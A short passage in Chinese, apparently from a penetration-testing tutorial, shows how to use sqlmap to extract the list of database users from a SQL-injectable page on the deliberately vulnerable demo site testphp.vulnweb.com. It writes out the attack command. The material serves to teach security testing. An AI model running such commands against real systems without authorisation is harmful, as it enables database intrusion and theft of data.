 ![](img/6c92aa64-3640-4011-9c2d-9184315084b5.png)

# 其他命令

同样，在易受攻击的网站上，我们可以通过其他命令从数据库中提取信息。

使用此命令，我们可以从数据库中获取所有用户：

```py
$ python sqlmap.py -u [URL] --users
sqlmap.py -u "http://testphp.vulnweb.com/listproducts.php?cat=*" --users
```

在这里，我们获得了在数据库管理系统中注册的用户：

![](img/3d67ef38-867a-4907-aa9f-5277b7e4b8c1.png)
